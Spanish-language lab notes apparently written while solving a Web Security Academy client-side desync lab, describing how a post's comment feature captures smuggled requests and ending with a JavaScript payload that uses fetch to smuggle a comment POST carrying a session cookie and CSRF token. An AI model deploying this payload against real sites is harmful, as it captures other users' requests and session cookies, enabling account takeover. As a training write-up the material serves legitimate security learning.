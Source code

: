 En esta clase localizamos un gadget útil dentro de la aplicación: el sistema de comentarios en los posts. Utilizamos el vector de desincronización previamente identificado para inyectar una petición parcial dentro del cuerpo de un comentario.

Al recargar el post, comprobamos que la petición ha sido reflejada parcialmente en el contenido visible, lo que demuestra que podemos capturar y almacenar partes de peticiones arbitrarias que luego serán accesibles públicamente.

Solucion
aqui mandamos una tipica consulta pero vemos que no da resultado como seria en una RS (Request Smuggling)
la diferencia en este payload es que si vemos en la parte de arriba podemos ver que le metimos 100 en CL pero abajo no se ve reflejado
![[Pasted image 20250812205026.png]]
asi que para que se puede ejecutar una consulta se deberia aplicar en diferentes sockets asi que en esta caso vamos a intecerpar el apartado /en que era el redirect
![[Pasted image 20250812205255.png]]
y como sabemos que estamos en un CSD pues normalmente si nosotro le dabamos send en el Attacker Request esperamos un error 400 pero aqui no se refleja
![[Pasted image 20250812205517.png]]
asi que nosotros necesitamos hacer una coneccion TCP para que se puede ejecutar el payload para ello vamos a crear un grupo en el BS y lo configuramos a send group
![[Pasted image 20250812205721.png]]
Cuando le damos a send aqui si podemos ver el error
![[Pasted image 20250812205817.png]]
entonces para complementar el ataque vamos a interceptar un post y vamos a configurarlo en el BS
![[Pasted image 20250812210134.png]]
lo configuramos tal que quede asi
![[Pasted image 20250812210301.png]]
Entonces todo esto no lo podemos copiar y pasarlo al attacker
![[Pasted image 20250812210545.png]]
ahora vamos a configurarlo
1.- (el comment lo pasamos hasta el final)
2.- (configurar la longitud real para no tener problemas)
![[Pasted image 20250812210757.png]]
tal que quedaria asi
![[Pasted image 20250812211038.png]]
donde lo vemos reflejado si nos vamos a la pagina donde esta el post lo veremos reflejado
![[Pasted image 20250812211123.png]]
pero como podemos hacer para que la victima no vea este tipo de post donde muestre la infomacion para eso nos vamos a montar un script en JS donde me automatize esto

payload (
<script>
    smuggledRequest = [
      "POST /en/post/comment HTTP/1.1",
      "Host: 0a2700d203ea680480563a4e0009009d.h1-web-security-academy.net",
      "Cookie: session=10C0ZiNzSfrPlheSkA0EmCPoX1tgGb9H",
      "Content-Type: application/x-www-form-urlencoded",
      "Content-Length: 800",
      "",
"csrf=AYsRFi6GRECmO9Nfp6MdsDsoe4ew7FRQ&postId=6&name=test&email=test@test.com&website=https://callate.com&comment=test"
    ].join("\r\n")

    fetch("http://0a2700d203ea680480563a4e0009009d.h1-web-security-academy.net", {
      method: "POST",
      body: smuggledRequest,
      credentials: 'include',
      mode: "no-cors"
    });
</script>
)